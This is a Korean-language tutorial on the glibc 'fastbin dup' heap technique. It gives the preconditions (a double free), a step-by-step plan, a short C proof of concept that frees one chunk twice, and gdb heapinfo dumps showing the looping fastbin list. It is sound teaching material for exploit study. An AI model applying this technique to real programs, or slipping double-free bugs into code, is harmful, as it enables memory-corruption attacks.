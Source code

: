 # **Fastbin-dup**

fastbins는 Free Chunk를 Single list로 관리한다.  
동일한 크기의 Fast Chunk 여러개가 해제되면, Chunk의 fd 영역을 이용해 관리한다.

## **Conditions**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk 3개 생성
1. 첫 번째 Fast Chunk 해제
1. 두 번째 Fast Chunk 해제
1. 첫 번째 Fast Chunk 해제
1. 같은 크기의 Heap을 3개 할당  
    * 1번째 Heap 영역과 3번째 Heap 영역의 주소가 같다!

```c
#include <stdio.h>
#include <stdlib.h>
 
int main()
{
        int *buf1 = malloc(112);
        int *buf2 = malloc(112);
        int *buf3 = malloc(112);
 
        free(buf1);
        free(buf2);
        free(buf1);
 
        int *buf4 = malloc(112);
        int *buf5 = malloc(112);
        int *buf6 = malloc(112);
}
```

* 3번째 Free 다음 fastbin 구조 

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* buf4 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

* buf5 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

* buf6 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

**fastbinsY의 변화**  
0x602000 → 0x602080 → 0x602000 → 0x602080  

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup>  
<https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c>  
<https://bpsecblog.wordpress.com/2016/08/31/translate_fastbin/>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>

